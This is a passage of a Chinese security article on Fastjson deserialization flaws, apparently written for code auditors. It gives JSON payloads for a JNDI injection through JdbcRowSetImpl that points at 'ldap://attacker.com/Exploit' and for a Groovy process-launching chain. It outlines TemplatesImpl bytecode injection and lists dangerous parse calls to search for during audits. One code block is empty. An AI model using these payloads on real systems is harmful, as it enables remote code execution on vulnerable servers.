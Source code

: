 ```
{
  &#34;@type&#34;: &#34;com.sun.rowset.JdbcRowSetImpl&#34;,
  &#34;dataSourceName&#34;: &#34;ldap://attacker.com/Exploit&#34;,
  &#34;autoCommit&#34;: true
}
```

  
**三大核心漏洞链**  
：  
1. **JNDI注入（经典1.2.24漏洞）**
```


```

  
  
1. **TemplatesImpl字节码注入**  
  
利用
```
_bytecodes
```

  
字段加载恶意字节码 → 通过
```
getOutputProperties()
```

  
触发执行  
关键条件：需开启Feature.SupportNonPublicField  
  
1. **新型Groovy漏洞链**  
  

```
{
  &#34;@type&#34;: &#34;org.codehaus.groovy.runtime.ConvertedClosure&#34;,
  &#34;method&#34;: &#34;execute&#34;,
  &#34;delegate&#34;: {
    &#34;@type&#34;: &#34;org.codehaus.groovy.runtime.MethodClosure&#34;,
    &#34;method&#34;: &#34;start&#34;,
    &#34;owner&#34;: &#34;groovy.lang.Process&#34;
  }
}
```

### 三、白盒审计四步定位法  
#### 步骤1：识别反序列化入口  
  
全局搜索高风险方法：  

```
// 危险方法
JSON.parseObject(input);
JSON.parse(input, Feature.SupportAutoType);
```
